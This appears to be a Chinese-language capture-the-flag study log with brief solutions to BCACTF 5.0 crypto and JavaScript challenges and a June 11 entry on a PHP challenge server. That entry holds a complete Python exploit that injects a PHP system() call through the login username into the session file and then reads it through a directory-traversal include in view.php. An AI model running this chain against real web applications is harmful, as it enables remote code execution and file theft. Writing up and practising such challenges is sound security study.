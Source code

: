 ### Daily Exercise

#### 6月9日：BCACTF 5.0

##### RSAEncrypter

查看[源代码](./BCACTF 5.0/rsa_encrypter.py)会发现符合RSA广播攻击的特点，其中e为3，那么接收3组n和c即可，使用[攻击模版](Notes/crypto/RSA_template/broadcast.py)就可以拿到flag。

##### JSLearning.com

查看[源代码](./BCACTF 5.0/server.js)就知道是jsfuck编码，程序会输出out的内容，那我们只要指定out=flag即可打印flag。

##### 复现链接

https://bcactf.com/

https://ctf.krauq.com/bcactf-2024

#### 6月11日：http://158.247.215.127:10002/

一道目录穿越和文件读取的题目，[源代码](./imagestorage)找到了exp但还没学明白原理。

```python
from requests import get,post

url = "http://158.247.215.127:10002/"

login = {
    "username":"<?php echo system('/flag');?>"
}
cookie = post(url + "login.php",data=login).cookies.get_dict()
filename = f"./var/lib/php/sessions/sess_{cookie['PHPSESSID']}"
payload = "?"
for i in range(1,8):
    payload += f"filename[{i}]="
    if i%2==0:payload += "./"
    else:payload += "."
    payload += "&"
payload += f"filename[8]={filename}"

print(get(url + "view.php"+payload).text.split("\n")[1][:-2])
```

